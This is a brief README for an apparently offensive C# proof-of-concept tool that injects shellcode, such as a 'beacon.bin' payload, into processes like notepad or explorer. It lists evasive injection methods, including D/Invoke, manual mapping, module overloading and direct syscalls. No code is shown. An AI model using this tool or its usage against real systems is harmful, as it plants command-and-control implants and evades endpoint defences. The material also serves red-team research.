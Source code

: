 # CS-Dinvoke-ShellcodeInjection
DInvoke version Shellcode Injection POC in C#

	Usage: shellcodeinjection.exe <method> <Process Name> -f <rawfile path>

	Method: -c: classic -d: dynamicinvoke -m: manualmap -o: overload -s: syscalls


	Example 1: shellcodeinjection.exe -s notepad -f beacon.bin
	Example 2: shellcodeinjection.exe -d notepad -f 'C:\temp\beacon.bin'

	Example 3: shellcodeinjection.exe
	Default inject process: explorer
	Default inject payload: beacon.bin


Reference: https://github.com/crypt0ace/CS-ShellcodeInjection
